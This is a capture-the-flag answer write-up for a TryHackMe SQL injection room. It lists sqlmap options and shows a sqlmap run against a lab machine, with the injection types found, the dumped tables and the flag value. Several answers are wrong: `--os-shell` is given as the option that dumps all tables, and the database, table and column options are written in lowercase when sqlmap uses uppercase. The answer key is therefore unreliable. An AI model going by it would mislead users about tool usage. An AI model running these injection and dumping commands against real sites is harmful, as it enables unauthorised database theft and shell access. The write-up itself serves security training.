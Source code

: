 # TryHackMe [CC: Pen Testing](https://tryhackme.com/room/ccpentesting) SQL Injection
### References
* `sqlmap` Project. (2021, February 11). `sqlmapproject/sqlmap` Wiki > Usage. GitHub. https://github.com/sqlmapproject/sqlmap/wiki/Usage




## `sqlmap`
### How do you specify which url to check?
**Answer**: `-u`
### What about which google dork to use?
**Answer**: `-g`
### How do you select which parameter to use (example: in the url http://ex.com?test=1 the parameter would be `test`)?
**Answer**: `-p`
### What flag sets which database is in the target host's backend (example: If the flag is set to mysql then `sqlmap` will only test mysql injections)?
**Answer**: `--dbms`
### How do you select the level of depth `sqlmap` should use (higher = more accurate and more tests in general)?
**Answer**: `--level`
### How do you dump the table entries of the database?
**Answer**: `--dump`
### Which flag sets which database to enumerate?
**Answer**: `-d`
### Which flag sets which table to enumerate?
**Answer**: `-t`
### Which flag sets which column to enumerate?
**Answer**: `-c`
### How do you ask `sqlmap` to try to get an interactive os-shell?
**Answer**: `--os-shell`
### What flag dumps all data from every table
**Answer**: `--os-shell`
##  Vulnerable Web Application
### How many types of SQL injections is the site vulnerable to?
* `sqlmap --dump --forms -u <MACHINE_IP>` reveals 3 vulnerabilities:
  *  MySQL RLIKE boolean-based blind - `WHERE`, `HAVING`, `ORDER BY` or `GROUP BY` clause
  * Title: MySQL >= 5.6 `AND` error-based - `WHERE`, `HAVING`, `ORDER BY` or `GROUP BY` clause (GTID_SUBSET)
  * Title: MySQL >= 5.0.12 `AND` time-based blind (query `SLEEP`)

**Answer**: `3`
### What is the name of the database?

`sqlmap --dump --forms -u <MACHINE_IP>` reveals the database name:
* `lol` table output from `sqlmap`:
```
Database: tests
Table: lol
[1 entry]
+----------+
| flag     |
+----------+
| found_me |
+----------+
```
* `msg` table output from `sqlmap`:
```
Database: tests
Table: msg
[2 entries]
+------+
| msg  |
+------+
| msg  |
| test |
+------+
```
**Answer**: `tests`
### How many tables are in the database?
**Answer**: `2`
### What is the value of the flag?
**Answer**: `found_me`